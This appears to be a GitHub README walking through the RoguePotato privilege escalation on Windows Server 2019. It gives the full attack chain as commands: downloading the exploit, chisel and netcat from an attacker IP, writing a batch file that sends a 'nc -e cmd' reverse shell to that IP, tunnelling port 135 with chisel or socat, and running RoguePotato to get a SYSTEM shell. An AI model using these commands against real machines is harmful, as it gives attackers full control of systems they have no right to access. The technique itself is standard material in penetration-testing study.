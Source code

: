 # Rogue-Potato

[JuicyPotato](https://k4sth4.github.io/Juicy-Potato/) abused SeImpersonate or SeAssignPrimaryToken privileges to get execution as SYSTEM. 
But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.

# Exploitation

All we need is [RoguePotato.exe](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe) , [Compatible Chisel for Win and Linux](https://github.com/k4sth4/Rogue-Potato) and [nc binary](https://github.com/k4sth4/Rogue-Potato).

### Upload all these on target machine

```markdown
powershell -c wget http://10.10.x.x:8080/RoguePotato.exe -outfile RoguePotato.exe
powershell -c wget http://10.10.x.x:8080/chiselx64.exe -outfile chisel.exe
powershell -c wget http://10.10.x.x:8080/nc64.exe -outfile nc64.exe
```

### Create a reverse shell on target machine and set chisel

```markdown
echo c:\\Windows\\Temp\\nc64.exe -e cmd 10.10.x.x 1234 > rev.bat
```

### Now run chisel on Attacker VM.
```markdown
./chisel server -p 8000 --reverse
```

### Now run chisle.exe on Traget Machine
```markdown
.\chisel.exe client 10.10.x.x:8000 R:135:localhost:9999
```
Note: 10.10.x.x is the Attacker IP.

We've open ports using chisel, now we can do the attack using RoguePotato.exe.

First we need to get another shell of the target user. As we can see that this shell is busy on port forwarding.
After gettng shell-2 we can set our listner on port that we've defined on rev.bat.

nc -nvlp 1234

## Getting Reverse Shell
### Now on shell-2 we can execute payload.

```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e c:\\Windows\\Temp\\rev.bat
```

if you're using Powershell.
```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e "powershell c:\\Windows\\Temp\\shell.ps1"
```

## Another Way Using socat

We can also use socat to port forward 135.
First set chisel on Kali vm as mentioned above.
Then on Target machine run chisel as:
```markdown
.\chisel.exe client 10.10.x.x:8000 R:9999:localhost:9999
```
Then set socat on Attacker VM (kali vm)
```markdown
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```
Now get another shell and run RoguePotato.exe as mentioned above you will get reverse shell as SYSTEM.

